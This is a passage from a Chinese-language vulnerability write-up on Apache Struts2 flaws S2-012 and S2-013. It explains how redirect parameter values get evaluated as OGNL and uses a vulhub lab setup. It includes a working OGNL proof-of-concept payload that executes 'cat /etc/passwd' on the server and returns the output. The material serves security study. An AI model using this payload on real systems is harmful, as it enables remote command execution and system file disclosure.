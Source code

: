 
### 漏洞描述 {#漏洞描述}

在之前的漏洞中，我们都是在请求参数名中插入 OGNL 表达式令其执行，而 struts 也相应
地增加了白名单机制来过滤恶意参数名。但参数值还是可以写入任意内容的，只要找到条件
让 struts 把参数值当作 OGNL 表达式来解析，就可以绕过之前的防护

012 漏洞的原因即在重定向时，从内存获取我们之前输入的参数值，这时会将它当作 OGNL
表达式执行

vulhub 示例：

```xml
<package name="S2-012" extends="struts-default">
	<action name="user" class="com.demo.action.UserAction">
		<result name="redirect" type="redirect">/index.jsp?name=${name}</result>
		<result name="input">/index.jsp</result>
		<result name="success">/index.jsp</result>
	</action>
</package>
```

当 UserAction 发生重定向时，会将 name 的值作为重定向页面的参数，导致表达式执行

poc:

```nil
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```


## S2-013 {#s2-013}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.14.1


### 漏洞描述 {#漏洞描述}

`<s:url` 和 `<s:a` 两个标签用于生成 anchor，而且它们有一个 includeParams 属性可以把
当前页面的参数添加到 anchor 的 href 中，includeParams 的可选值如下：

1.  none: 不包含原请求参数
2.  get: 只包含 get 请求参数
3.  all: 包含 get 请求和 post 请求参数

例子：

```html
<p><s:a id="link1" action="link" includeParams="all">"s:a" tag</s:a></p>
<p><s:url id="link2" action="link" includeParams="all">"s:url" tag</s:url></p>
```
